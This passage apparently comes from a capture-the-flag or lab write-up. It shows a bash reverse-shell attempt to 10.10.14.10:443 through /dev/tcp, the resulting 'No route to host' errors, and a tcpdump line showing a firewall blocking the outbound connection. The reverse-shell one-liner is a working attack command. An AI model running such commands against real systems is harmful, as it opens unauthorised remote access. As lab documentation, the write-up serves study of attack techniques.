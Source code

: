     fortune> bash -c 'bash -i >& /dev/tcp/10.10.14.10/443 0>&1'
    bash: connect: No route to host
    bash: /dev/tcp/10.10.14.10/443: No route to host



A line did appear in the `tcpdump` window:



    Jul 29 18:31:10.351547 rule 10/(match) block out on em0: 10.10.10.127.22208 > 10.10.14.10.443: S 1233573000:1233573000(0) win 16384 <mss 1460,nop,nop,sackOK,nop,wscale 6,nop,nop,timestamp 1275021369[|tcp]> (DF) 







